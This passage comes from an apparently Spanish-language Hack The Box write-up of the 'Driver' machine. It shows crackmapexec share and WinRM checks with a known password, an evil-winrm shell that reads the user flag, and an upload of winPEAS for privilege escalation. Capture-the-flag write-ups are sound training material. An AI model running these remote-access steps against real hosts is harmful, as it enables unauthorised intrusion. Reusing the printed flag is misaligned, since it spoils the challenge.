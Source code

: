 ```bash
➜  content crackmapexec smb 10.129.250.229 -u 'tony' -p 'liltony' --shares
SMB         10.129.250.229  445    DRIVER           [*] Windows 10 Enterprise 10240 x64 (name:DRIVER) (domain:DRIVER) (signing:False) (SMBv1:True)
SMB         10.129.250.229  445    DRIVER           [+] DRIVER\tony:liltony
SMB         10.129.250.229  445    DRIVER           [+] Enumerated shares
SMB         10.129.250.229  445    DRIVER           Share           Permissions     Remark
SMB         10.129.250.229  445    DRIVER           -----           -----------     ------
SMB         10.129.250.229  445    DRIVER           ADMIN$                          Remote Admin
SMB         10.129.250.229  445    DRIVER           C$                              Default share
SMB         10.129.250.229  445    DRIVER           IPC$                            Remote IPC
```

- Pero no tenemos nada interesante algo que podemos hacer es ver si el usuario forma parte del grupo `Remote Management Users` para usar `evil-winrm` y conectarnos.

```bash
➜  content crackmapexec winrm 10.129.250.229 -u 'tony' -p 'liltony'
SMB         10.129.250.229  5985   DRIVER           [*] Windows 10.0 Build 10240 (name:DRIVER) (domain:DRIVER)
HTTP        10.129.250.229  5985   DRIVER           [*] http://10.129.250.229:5985/wsman
WINRM       10.129.250.229  5985   DRIVER           [+] DRIVER\tony:liltony (Pwn3d!)
```

- Y bueno podemos conectarnos y leer la `user flag`.

```bash
➜  content evil-winrm -i 10.129.250.229 -u tony -p liltony

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\tony\Documents> whoami
driver\tony
*Evil-WinRM* PS C:\Users\tony\Documents> type C:\Users\tony\Desktop\user.txt
3bc6aa3a19aa59e9524f16993158ab66
```

## Escalada de Privilegios

- Para enumerar el sistema podemos subir winPEASx64 <https://github.com/carlospolop/PEASS-ng/releases/tag/20240331-d41b024f>.

- Y lo subimos ala maquina.

```bash
*Evil-WinRM* PS C:\Users\tony\Documents> upload winPEASx64.exe

Info: Uploading /home/miguel/Hackthebox/Driver/content/winPEASx64.exe to C:\Users\tony\Documents\winPEASx64.exe

Data: 3183272 bytes of 3183272 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\tony\Documents>
```
